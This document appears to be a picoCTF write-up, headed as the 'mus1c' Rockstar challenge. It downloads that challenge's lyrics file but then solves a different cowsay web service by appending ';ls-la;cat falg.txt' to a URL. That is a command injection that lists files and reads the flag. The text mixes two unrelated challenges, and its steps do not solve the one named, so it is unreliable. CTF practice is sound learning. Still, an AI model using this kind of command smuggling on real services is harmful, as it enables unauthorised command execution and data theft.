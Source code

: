# Medium Challenge

> Read full challenge at: https://play.picoctf.org/practice/challenge/15?category=5&page=5


**Hint**: Do you think you can master rockstar?

> Note: Put it in the picoCTF{} flag format.

## Solution


**Step** 1: Create a folder mus1c and download [song](https://jupiter.challenges.picoctf.org/static/c594d8d915de0129d92b4c41e25a2313/lyrics.txt) in this challenge by using `mkdir` and `wget`

```sh
mkdir mus1c
```

```sh
wget https://jupiter.challenges.picoctf.org/static/c594d8d915de0129d92b4c41e25a2313/lyrics.txt
```

![Image of step1](image1.png)


**Step 2** : Make a request to the following URL to cowsay your message

Follow the instruction in the website I will copy the URL, the message I will write a random sring like the iamge below 

```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal
```

> You can copy and try it on your browser

![Iamge of step 2](image1.png)

**Step 3** : Find the `Flag`

As I mention above, I can use the command on the url bar like using command on terminal, I will use command **ls-la** to lis all file:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la
```

![Image of step 3.1](image2.png)

So, after list all all file I can see the file **falg.txt** so let use command:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la;cat falg.txt
```

![Image of step 3.2](image4.png)


So, the flag is `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
